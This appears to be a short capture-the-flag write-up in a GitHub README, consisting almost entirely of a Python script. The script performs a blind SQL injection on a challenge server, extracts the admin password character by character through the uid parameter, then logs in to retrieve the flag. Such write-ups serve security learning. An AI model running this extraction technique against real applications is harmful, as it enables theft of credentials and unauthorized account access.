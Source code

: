 # BlindSql-Writeup
<img width="897" height="359" alt="image" src="https://github.com/user-attachments/assets/812efe75-0798-4145-bf15-1a1eb88260fe" /> <br>
- Script xử lí <br>
```python
import requests
import string

URL = "http://103.97.125.56:30366"
charset = string.digits + string.ascii_letters + "_"
length = 13
password = ""
username = "admin"

def get_password_admin():
    global password
    for i in range(1, length + 1):
        for ch in charset:
            injection = f"{username}' AND (SELECT SUBSTR(upw,{i},1) FROM users WHERE uid='{username}')='{ch}'-- -"
            response = requests.get(f"{URL}/", params={"uid": injection})
            if "not found!" not in response.text:
                password += ch
                print(f"[+] Found {i}: {ch} -> {password}")
                break
    print(f"[✓] Done Password Admin: {password}")

def get_flag():
    data = {
        "username": username,
        "password": password
    }
    response = requests.post(f"{URL}/login", data=data)
    if response.status_code == 200:
        print(f"[+] Done Login And Give Me Flag Heheh\n")
        print(response.text)
if __name__ == "__main__":
    get_password_admin()
    get_flag()

```

